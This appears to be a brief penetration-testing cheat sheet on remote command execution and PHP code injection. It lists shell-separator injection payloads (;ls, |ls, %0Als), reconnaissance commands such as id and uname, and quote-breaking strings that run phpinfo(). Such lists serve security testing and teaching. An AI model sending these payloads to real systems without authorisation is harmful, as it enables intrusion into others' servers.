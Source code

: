 # Remote Command Execution

## Payloads
```
;ls
;%20ls
&ls
&&ls
|ls
||ls
%0Als
```

## Useful commands
- ```pwd```
- ```uname```
- ```id```
- ```hostname```
- ```ps aux```

# Code Execution

## Payload
```
a";phpinfo();//
a".phpinfo();//
a);}phpinfo();//
```

## Sample PHP executable
- https://www.php.net/manual/en/function.shell-exec.php

